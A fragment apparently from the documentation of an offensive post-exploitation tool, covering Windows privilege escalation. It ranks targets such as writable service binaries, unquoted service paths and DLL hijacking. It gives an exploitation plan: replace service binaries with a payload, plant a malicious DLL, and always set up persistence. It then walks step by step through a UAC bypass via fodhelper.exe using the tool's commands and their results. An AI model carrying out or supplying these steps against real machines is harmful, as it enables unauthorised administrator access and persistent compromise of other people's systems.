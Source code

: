 ### 2. Documentation

```bash
# Save all enumeration results
# (From attacker server after receiving responses)
# Save each command output to separate files for analysis
```

### 3. Prioritization

```bash
# Focus on highest-impact Windows findings:
# 1. Writable service binaries
# 2. Unquoted service paths
# 3. Writable service directories
# 4. DLL hijacking opportunities
# 5. Scheduled tasks running as SYSTEM
# 6. Weak file permissions in Program Files
# 7. Sensitive files with credentials
```

### 4. Exploitation Strategy

```bash
# After enumeration, exploit based on findings:

# If UAC bypass available:
priv_uac_bypass

# If writable service binary found:
# Replace service binary with payload
# Restart service to gain SYSTEM

# If DLL hijacking opportunity:
# Create malicious DLL
# Place in target directory
# Wait for or trigger execution

# Always create persistence:
priv_persist C:\path\to\payload.exe
```

---

## Attack Scenarios

### Scenario 1: UAC Bypass to Administrator

```bash
# 1. Check current privileges
priv_check
# Result: is_admin=false, integrity_level="Medium (Standard User)"

# 2. Check UAC status
priv_enum
# Result: UAC enabled

# 3. Attempt UAC bypass
priv_uac_bypass
# Result: fodhelper.exe executed, registry keys created

# 4. Verify escalation (in new elevated process)
priv_check
# Result: is_admin=true, integrity_level="High (Admin)"

```